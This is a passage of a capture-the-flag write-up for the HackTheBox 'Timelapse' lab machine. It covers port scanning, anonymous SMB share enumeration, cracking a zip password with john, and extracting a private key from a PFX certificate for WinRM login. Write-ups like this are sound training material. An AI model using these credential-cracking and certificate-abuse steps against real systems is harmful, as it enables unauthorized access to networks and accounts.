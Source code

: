 # Timelapse
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6ae9f7ae-3c2d-47b0-96c8-611d44ecf6ce)


## Lesson learned:
- Enumerate public smb share with **smbclient**.
- Cracking Personal Information Exchange (PFX) file.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.152 --min-rate 1000 -Pn 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-29 02:11 PST
Nmap scan report for 10.10.11.152
Host is up (0.019s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-29 18:13:50Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2023-11-29T18:15:22+00:00; +7h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-29T18:14:44
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m57s, deviation: 0s, median: 7h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 320.43 seconds
```

1. Based from the nmap results, it opens few ports (which is not good) and it runs web application at port 5986.
2. Noticed there are SMB share opens, let's enumerate it with **smbclient**.

> Using smbclient, for password using your own machine password.

```
smbclient -L //timelapse.htb/
```

```
┌──(brandy㉿bread-yolk)-[~]
└─$ smbclient -L //timelapse.htb/
Password for [WORKGROUP\brandy]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to timelapse.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

3. Nice there's `ADMIN$` sharename, but the only sharename we can access without credential is `Shares`.

```
smbclient //timelapse.htb/Shares
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/164a12a2-9dc5-429e-8895-73e6c381f3e1)


4. After listing all files inside `Dev` directory, found a .zip file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90b3257a-76ba-4d73-a210-d624fe8693fd)


5. To download a file from smb share, we use `get` command.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b81c185-9b93-444c-9a64-d11334e368cb)


6. Interesting! Inside it, there's a .pfx file and it seems we need to use john to crack the password.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/140376c2-ba5f-4a4c-bf42-5e015d8e033b)


> Using john

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_timelapse]
└─$ zip2john winrm_backup.zip > hash.txt                                                                                                                           
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```

> supremelegacy

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_timelapse]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-11-29 04:11) 4.761g/s 16559Kp/s 16559Kc/s 16559KC/s surkerior..supalove
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


7. Personal Information Exchange (PFX) also known as PKCS #12 or P12 file is a binary format file that is commonly used to store a private key with its associated public key and certificates.
8. It securely exporting and importing private keys and certificates, especially in scenarios where you need to move or back up a certificate and its associated private key.
9. They are often used in web server configurations, for example, when installing SSL/TLS certificates. The PFX format provides a convenient way to bundle all the necessary components securely into a single file.
10. Great! Now we know what **.pfx** file is, let's extract what inside it and used them with **WinRM** so we can login to the remote server without a password.

> Command to extract pfx file

#### NOTES:

```
For those who wonders why .pem (Privacy Enhanced Mail), because PEM file is a text file that typically contains one or more cryptographic elements,
encoded in the PEM format. The contents of a PEM file are encoded using Base64 encoding and are enclosed between
"-----BEGIN CERTIFICATE-----" and "-----END CERTIFICATE-----" (or a similar marker depending on the type of data).
```

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```



